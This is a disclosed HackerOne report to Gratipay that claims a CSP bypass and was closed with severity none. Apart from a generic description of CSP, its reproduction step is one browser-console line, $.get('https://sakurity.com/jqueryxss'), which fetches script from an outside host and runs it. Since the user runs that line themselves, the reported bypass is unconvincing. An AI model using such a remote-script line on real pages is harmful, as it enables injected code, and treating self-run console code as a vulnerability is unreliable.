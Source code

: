 # CSP Policy Bypass and javascript execution Still Not Fixed

## Report Details
- **Report ID**: 241341
- **URL**: https://hackerone.com/reports/241341
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-06-19T15:06:15.329Z
- **Disclosed**: 2017-06-19T15:19:40.416Z

## Reporter
- **Username**: 4w3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gratipay

## Vulnerability Information
# Summary

Content Security Policy (CSP) is a computer security standard introduced to prevent cross-site scripting (XSS), clickjacking and other code injection attacks resulting from execution of malicious content in the trusted web page context. CSP provides a standard method for website owners to declare approved origins of content that browsers should be allowed to load on that website — covered types are JavaScript, CSS, HTML frames, web workers, fonts, images, embeddable objects such as Javascript.


# Steps To Reproduce

  1. Open firefox or Chrome Press F12
  1. Now go to Console Tab
  1. $.get('https://sakurity.com/jqueryxss'); paste it and hit enter
  
# Patch
Update Jquery and Javascript Library 

# Supporting Material/References:
https://youtu.be/JgaSeKNleLA

## Attachments
No attachments
